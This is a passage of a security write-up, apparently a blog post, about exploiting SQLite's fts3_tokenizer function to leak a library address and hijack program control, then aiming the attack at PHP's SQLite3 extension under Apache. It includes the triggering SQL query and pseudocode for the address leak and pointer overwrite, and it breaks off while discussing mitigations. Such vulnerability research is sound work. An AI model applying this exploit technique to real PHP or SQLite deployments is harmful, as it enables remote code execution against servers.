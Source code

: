 Assume the virtual table named *fulltext* has already been created successfully. This query triggers `xOpen` callback with the string "text goes here" as the `pInput1` parameter:

```sql
insert into fulltext values("text goes here");
```

Sources in `ext/fts3/fts3_expr.c`, function `sqlite3Fts3OpenTokenizer`:

```c
sqlite3_tokenizer_module const *pModule = pTokenizer->pModule;
sqlite3_tokenizer_cursor *pCsr = 0;
int rc;**rc = pModule->xOpen(pTokenizer, z, n, &pCsr);
```

So we can craft a target address on a predictable memory location, pass the location to `fts3_tokenizer`, trigger the callback, then program counter is hijacked. Yep! It can be a global variable in `.bss` segment, or use the heap spray technique.

[Commit e36e9c](https://github.com/mackyle/sqlite/commit/e36e9c520a7fa35c2dd46eb92aee7822580132e0) introduced the `soft_heap` pragma for limiting the size of heap memory pool. It accepts a 64-bit number set the global variable `mem0.alarmThreshold` to the given value. This global variable's address can be calculated from previously leaked `simpleTokenizer`.

The pseudo code to describe the exploit:

```php
$big_endian_address = sqlQuery("select hex(fts3_tokenizer('simple)) addr")['addr'];
$leaked_address = big_endian_to_cpu_endian($big_endian_address);
$libsqlite3_base = $leaked_address - $simple_tokenizer_offset;
$alarm_threshold = $libsqlite3_base + $threshold_offset;
$target = 0xdeadbeefdeadbeef;
$off_by_one = $is_64_bit ? 8 : 4;
$crafted = $alarm_threshold - $off_by_one;
$big_endian_address = cpu_endian_to_big_endian($crafted);
sqlQuery("select fts3_tokenizer('simple', ?);", $big_endian_address);
sqlQuery("create table a using fts3"); // crash
```

## Exploiting PHP

The SQLite3 extension is enabled by default as of PHP 5.3.0. It's possible to disable it by using `--without-sqlite3` at compile time.[2] The extension is compiled with FTS so there's an attack surface. We don't even have to create a file since SQLite supports in-memory database.

PHP does not come with PIE, but apache2 does. PHP interpreter is loaded as a shared object (`mod_php.so`) in Apache2's worker processes, who have full protection enabled.

     CANARY : ENABLED
     FORTIFY : ENABLED
     NX : ENABLED
     PIE : ENABLED
     RELRO : FULL

Without a proper gadget for stack pivoting, sadly I only have one chance to call. *xOpen* looks good for PC-control. Its second param is a string from SQL which can be fully controlled.
